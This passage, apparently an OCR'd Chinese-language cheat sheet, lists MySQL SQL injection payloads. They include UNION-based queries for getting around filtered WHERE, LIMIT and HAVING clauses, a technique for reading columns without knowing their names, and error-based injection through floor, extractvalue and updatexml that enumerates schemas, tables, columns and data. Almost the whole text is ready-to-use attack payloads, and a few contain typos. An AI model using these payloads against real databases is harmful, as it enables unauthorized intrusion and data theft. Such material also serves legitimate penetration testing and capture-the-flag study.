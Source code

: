 - 在获取数据的最后一部,如果需要使用where进行判定而被过滤了where可以使用如下方法
```sql
union select PARAM from TABLE limit 1;
```

- 过滤了limit
```sql
union select PARAM from TABLE group by id having id=1;
```

- 过滤了having
```sql
unino select group_concat(PARAM) from TABLE;
```

- 不知道列名的情况下注入数据
```sql
union select 1,(select concat(`1`,0x3a,`2`) from (select 1,2 union select * from users)a limit 1,1);
```

## 报错注入

- floor,extractvalue,updatexml
```sql
select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;
select extractvalue(1,concat(0x7e,(select @@version),0x7e));
select updatexml(1,concat(0x7e,(select @@version),0x7e),1);
```

- 注入数据
```sql
select 1 from(select count(*),concat((select concat(0x7e,version(),0x7e)),floor(rand(0)*2))x from information_schema.tables group by x)a;
select 1 from(select count(*),concat((select distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 1,1),floor(rand(0)*2))x from information_schema.tables group by x)a;
select 1 from(select count(*),concat((select distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a;
select 1 from(select count(*),concat((select distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_name=TABLE LIMIT 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a;
select 1 from(select count(*),concat((select distinct concat(0x7e,COLUMN,0x7e) FROM DATABSE.TABLE LIMIT 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a;
```

- 过滤了information_schema
```sql
select 1 from(select count(*),concat((select distinct concat(0x7e,table_name,0x7e) FROM mysql.innodb_index_stats where database_name=schema() LIMIT 0,1),floor(rand(0)*2))x from mysql.innodb_index_stats group by x)a;
```

- 过滤了rand函数
```sql
select min(@a:=1) from information_schema.tables group by concat(version(),@a:=(@a+1)%2)
```
